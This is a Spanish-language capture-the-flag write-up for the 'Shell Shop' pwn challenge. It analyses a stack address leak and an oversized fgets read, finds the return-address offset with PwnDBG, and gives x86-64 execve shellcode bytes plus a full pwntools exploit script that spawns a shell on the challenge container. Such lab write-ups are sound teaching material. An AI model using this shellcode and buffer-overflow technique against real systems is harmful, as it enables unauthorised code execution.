





# Bugcrowd Student Qualifier | Shell Shop Writeup

<p  align="center">
  
</p>

> **Autor**: *Ookami*

### Descripción

> **Categoría**: *Pwn*
> **Dificultad**: Media

Para este reto, se nos brindó un **comprimido** `pwn_shellstore.zip` del **ejecutable principal** `shell_shop`, acompañado de las librerías necesarias en un directorio `glibc`.
La idea es analizar estos recursos para preparar un `exploit` contra este binario como servicio, en un contenedor `docker` que desplegaba la página del *CTF*.

En cuanto al **ejecutable**, este despliega un menú básico para la compra de un par de productos fantasiosos y una opción para terminar el programa, no sin antes preguntar si deseas ser notificado cuando la tienda reaparezca.


### Análisis

##### Manual

Antes de profundizar en el **análisis**, me dispuse a interactuar y probar a mano las distintas opciones en el menú del programa.

Particularmente, hubo un comportamiento que llamó mi atención. Con el saldo inicial de **1337** monedas, únicamente se puede comprar el objeto `X0 Armor`.
Tras comprar este objeto y optar por salir de la tienda, el programa nos ofrece un **"código de descuento"** distinto en cada ejecución:


Este *"código"* parece más una dirección de memoria, por el formato **hexadecimal**.
Además, el hecho de que siempre inicie con los dígitos `7f` sugiere que se trata de una dirección en la sección de la `pila` en memoria.

##### Checksec

Por otra parte, utilicé la herramienta [checksec](https://github.com/slimm609/checksec) para identificar medidas de seguridad activas en el binario.

En especial, nos interesan los mecanismos más importantes que son:

- `Stack Canary`: Detección de **corrupción de datos** de la `pila`.

- `NX`: Bloqueo de **ejecución** de código en la `pila`.

- `PIE`: Aleatorización de las **direcciones de memoria** del ejecutable.



Por los resultados, notamos que `Stack Canary` y `NX` estan **desactivados**, lo que quiere decir que el binario **podría** ser susceptible a ataques de tipo `Buffer Overflow`.

Sin embargo, `PIE` sí se encuentra **activo** lo que hace impredecible las direcciones de memoria, dificultando en cierta medida la `explotación`.

##### Análisis avanzado

Para un **análisis** más **avanzado** del binario, utilicé principalmente [Radare2](https://github.com/radareorg/radare2) con el *plugin* [R2Ghidra](https://github.com/radareorg/r2ghidra) y el `depurador` **GDB** acompañado de la extensión [PwnDBG](https://github.com/pwndbg/pwndbg).

###### Decompilado y desensamblado

Para empezar, obtuve y revisé el `desensamblado` y `decompilado` de varias **funciones** del binario con `radare2`.
Mi objetivo era identificar cualquier **vulnerabilidad** en el código y esclarecer el comportamiento del código de descuento.

Tras un tiempo, encontré esta sección interesante del código **decompilado** de la función `main` que responde ambas interrogantes:



Para el código de descuento, podemos ver que imprime la dirección `&stack0xffffffffffffffc8` en formato de `apuntador` (`%p`).

Esta sintaxis de **Ghidra** se refiere a un desplazamiento de `0xffffffffffffffc8`, que representa `-56` en el sistema decimal, de una dirección base `&stack` relacionada a una sección de la `pila` de esta función.
Así confirmamos que el código de descuento es una dirección **específica** de la `pila`.

Después, hay una **vulnerabilidad** cuando se pregunta al usuario si desea ser notificado, debido a 2 razones:

1. El programa escribe la respuesta **directamente** en la pila, en la dirección `&stack0xffffffffffffffc6`.
2. Aunque solo se requiere un caracter en la respuesta, se le indicó a la función `fgets` recibir hasta 100 caracteres.

Esto abre completamente la posibilidad a un ataque de `Buffer Overflow` si logramos sobreescribir la dirección de retorno almacenada en la `pila`, y redirigir el flujo de ejecución a la misma `pila`.

Pero primero, dada la restricción del `PIE`, debemos determinar una **dirección de retorno** específica a la sección de la `pila` que podemos sobreescribir.

Antes se mencionó que el programa escribe nuestra respuesta en `&stack0xffffffffffffffc6` que, bajo la misma sintaxis del ejemplo anterior, representa la dirección `&stack` con un desplazamiento de `-58`.
Es decir, 2 `bytes` antes que cualquier dirección otorgada como código de descuento!

O sea que, a pesar de la **aleatorización** de las direcciones, siempre sabremos que la dirección filtrada como código de descuento se ubica 2 `bytes` después de donde se comienza a almacenar nuestra respuesta.

Finalmente, solo resta determinar si podemos sobreescribir la dirección de retorno de esta función, y en caso afirmativo, identificar el `offset` necesario para sobreescribirla.

###### Depuración

Para esta tarea, me apoyé de **PwnDBG**, primero generando una cadena de patrón cíclico con una longitud adecuada mediante el comando:

```gdb
pwndbg> cyclic 100
```

Después copié esta cadena y ejecuté el binario con el siguiente comando:

```gdb
pwndbg> run
```

Tras solicitar terminar el programa, introduje dicha cadena como respuesta a si deseo ser notificado, obteniendo un error de **Segmentation Fault**.



Esto siempre es buena señal, y con apoyo del `depurador` confirmé que es debido a la corrupción de la dirección de retorno, pues el programa intentó retornar a una dirección inexistente:



Esta dirección inexistente, es en realidad un fragmento de nuestra cadena de patrón cíclico, entonces, confirmamos que es posible sobreescribir la dirección de retorno y podemos obtener el `offset` mediante el siguiente comando en **PwnDBG**:

```gdb
pwndbg> cyclic -l 0x6169616161616161

Finding cyclic pattern of 8 bytes: b'aaaaaaia' (hex: 0x6161616161616961)
Found at offset 58
```

###### Conclusiones

Tras todo el análisis, repasemos la información que recopilamos de este binario y que será clave para el desarrollo del `exploit`:

- Se aleatorizan las direcciones de memoria, pero no hay ningun mecanismo de protección en la `pila`.
- Filtra una dirección de memoria específica.
- Es susceptible a `Buffer Overflow` cuando pregunta si deseas ser notificado.
- La respuesta a esta pregunta comienza su escritura 2 `bytes` antes de la dirección filtrada.
- Tras los primeros 58 `bytes` escritos, los siguientes sobreescriben la dirección de retorno de la función `main`.

### Explotación

Antes que nada, busqué un `Shellcode` adecuado en la página web [Shell Storm](https://shell-storm.org/shellcode/index.html), para la arquitectura **x86-64** y plataforma **Linux**.

Opté por el `Shellcode` [`execve("/bin/bash",{NULL},{NULL}) - 24 bytes`](https://shell-storm.org/shellcode/files/shellcode-909.html) que simplemente ejecuta una `línea de comandos`, especificamente `bash`.
El código en `ensamblador` de la página es el siguiente:

```nasm
mov rax, 0x68732f6e69622f
push rax
push rsp
pop rdi
xor eax, eax
push rax
mov al, 59
push rsp
pop rdx
push rsp
pop rsi
syscall
```

Con apoyo de un [ensamblador en línea](https://defuse.ca/online-x86-assembler.htm), **ensamblé** este código para la arquitectura `x64`, verificando así su integridad y compatibilidad.

En consecuencia, la página te brinda varias representaciones del código ensamblado, pero la más útil para este ejercicio es *String Literal*, que es la siguiente cadena:

```python
"\x48\xB8\x2F\x62\x69\x6E\x2F\x73\x68\x00\x50\x54\x5F\x31\xC0\x50\xB0\x3B\x54\x5A\x54\x5E\x0F\x05"
```

Así, podemos incorporar directamente esta cadena en el `exploit` sin más problemas.

Decidí desarrollar el `exploit` en `Python`, en conjunto con la librería [*Pwntools*](https://github.com/Gallopsled/pwntools) que facilita este proceso. El `exploit` se ve de la siguiente manera:

```python
#!/usr/bin/env python3

# ------------------
# Ookami
# Hackers Fight Club
# ------------------

from pwn import remote,p64

SHELLCODE = b'\x48\xB8\x2F\x62\x69\x6E\x2F\x73\x68\x00\x50\x54\x5F\x31\xC0\x50\xB0\x3B\x54\x5A\x54\x5E\x0F\x05'

docker = '172.17.0.2:8080'
host, port = docker.split(':')

r = remote(host, int(port))
r.recvuntil(b'>> ')
r.sendline(b'2')
r.recvuntil(b'>> ')
r.sendline(b'3')
r.recvuntil(b'[')
addr = int(r.recv(14).decode(),16)
r.recvuntil(b'(y/n): ')

payload = b'AA'+SHELLCODE+b'B'*32+p64(addr)

r.sendline(payload)
r.recv(52)
r.interactive()
r.close()
```

La mayor parte de este, es establecer la conexión con el `servidor:puerto` indicados, simular la interacción con el **menú** para comprar el objeto y capturar la dirección filtrada.
Sabiendo que la dirección siempre mide 14 caracteres (o `bytes`) y se encuentra entre corchetes, no es dificil utilizar las funciones `recvuntil` y `recv` implementadas por `pwntools` para realizarlo y convertirla a un entero.

Por otra parte, la creación del `payload` principal fue de la siguiente manera:

1. **2** caracteres basura por la diferencia con la dirección filtrada.
2. Cadena de bytes del `Shellcode` seleccionado de **24** `bytes`.
3. **32** caracteres basura necesarios para completar el `offset` necesario de 58.
4. Dirección de retorno en formato `Little-Endian`, de lo que se encarga la función `p64`. Es decir, por poner un ejemplo, convierte un entero `0x7fffa2aecf60` a una cadena de `bytes` `b'\x60\xcf\xae\xa2\xff\x7f\x00\x00'`.

Finalmente, tras enviar este `payload` y recibir la despedida del programa, volvemos interactivo el programa para simular una línea de comandos.



Después, podremos leer la bandera normalmente con un `cat` en esta `shell` improvisada.

```bash
cat flag.txt

# HTB{REDACTED}
```

## Recursos de apoyo

- **Radare2 Cheatsheet** - https://github.com/radareorg/radare2/blob/master/doc/intro.md
- **GDB Cheatsheet** - https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf
- **PwnDBG Cheatsheet** - https://pwndbg.re/CheatSheet.pdf
- **Mastering Pwntools** - https://medium.com/@kuldeepkumawat195/mastering-pwntools-a-python-library-for-ctf-challenges-and-exploit-development-8547668c861c